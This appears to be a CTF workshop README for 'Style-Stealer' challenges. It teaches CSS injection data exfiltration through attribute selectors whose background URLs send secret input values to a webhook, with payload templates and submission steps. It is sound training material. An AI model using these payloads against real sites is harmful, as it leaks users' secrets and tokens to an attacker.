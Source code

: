 # Web 1: CSS Exfiltration Attack

### What is a CSS Exfiltration Attack?

A CSS Exfiltration Attack occurs when an attacker is able to inject CSS into a web page. While some elements on a page may be restricted from direct access, cleverly crafted CSS can be used to extract sensitive data. This is possible because certain CSS selectors and functions can indirectly leak information by triggering observable behaviors, such as generating HTTP requests. In some cases, CSS injection may also lead to JavaScript execution. Today, we are specifically focusing on the data exfiltration aspect of such attacks.

### What is a Webhook?

A Webhook is a mechanism that allows data to be sent to a unique URL when certain events occur. One way to explore this is by visiting [webhook.site](http://webhook.site), a service that provides you with your own unique URL. This URL is private to you, and any visits to it are logged to it. You can also send information along with each visit, such as `webhook/whatever_you_want`.

### How to perform a CSS Exfiltration Attack?
In our challenge `Style-Stealer`, we assume that a secret is stored in an element such as `<input value="secret">`. The idea is to then inject something like `[value="a"] { background: url(webhook/a); }`, which targets an HTML element with a value attribute equal to "a". If such an element exists, the browser will attempt to load a background image from `webhook/a`, effectively making a request to your webhook URL. Although there's no actual image, the request itself logs the data access. Make sure to replace `"webhook"` with your own unique webhook URL.

To expand this attack, rather than guessing exact values, you can use partial attribute selectors:

`[value^="a"]`
- `^` means first character
    - matches all HTML elements that start with "a"

`[value$="a"]`
- `$` means last character
    - matches all HTML elements that end with "a"

These allow broader probing of values without brute-forcing every possibility. For convenience and scale, it’s recommended to write a Python script with for loop(s) to automatically generate these.

## Challenges

The following challenges in increasing difficulty are deployed to [platform.acmcyber.com](https://platform.acmcyber.com) to practice the concepts covered.

- `style-stealer-1`
- `style-stealer-2`
- `style-stealer-3`
- `style-stealer-4`
- `style-stealer-5`
- `style-stealer-6`
- `style-stealer-100`

### Solving and Submitting

1. Go to the [style-stealer site](https://style-stealer.acmcyber.com/)
2. Generate your script (heh good luck).
3. Paste your script into the big CSS box (it should be pretty visible).
4. Put your desired level into the small Level (1-6, 100)
5. Submit and Test (ask us if you have questions)
    - On the blank page, click "View style".
    - See if the letter(s) that are displayed match the letter(s) logged on your webhook (this is like a sanity check).
6. Copy the URL and DM it to `r2uwu2` on Discord.
7. Once he opens your page, you should get a visit to your webhook with the letter(s) logged there (fingers crossed).
8. If the letters match, he will give you the flag :D. If they don't ...

Also, if you are scripting in python, use pyperclip library or a similiar library. It allows you to copy text, instead of having to manually highlight your output and copy it.

### Hints for Style-Stealer

starter script:
```
<input value = "...">
[value = "..."] {
    color: red;
    background: url(...); /* this will make a request to your webhook if the value matches your "..." */
}
```

sending multiple webhooks:
```
input {
    --aaa: none;
    --bbb: none;
    ...
}
[value^="a"] { --aaa: url(.../aaa); }
[value^="b"] { --bbb: url(.../bbb); }
...
[value]{
    background: var(--aaa), var(--bbb), ...;
}
```

conceptual question #1: why do we use 3 character long pattern searches?

conceptual question #2: how will we solve level 100 with only 3 character long searches?

note: there is also a recursive method to solve level 100 but that requires a web server (ask Ronak for more details)

## Resources

- [webhook.site](http://webhook.site)
- [CSS Attribute Selectors](https://developer.mozilla.org/en-US/docs/Web/CSS/Attribute_selectors)
- [Blind CSS Data Exfiltration](https://medium.com/@angryovalegg/blind-css-data-exfiltration-8dd6614236b2)
- [Testing for CSS Injection](https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/11-Client-side_Testing/05-Testing_for_CSS_Injection)

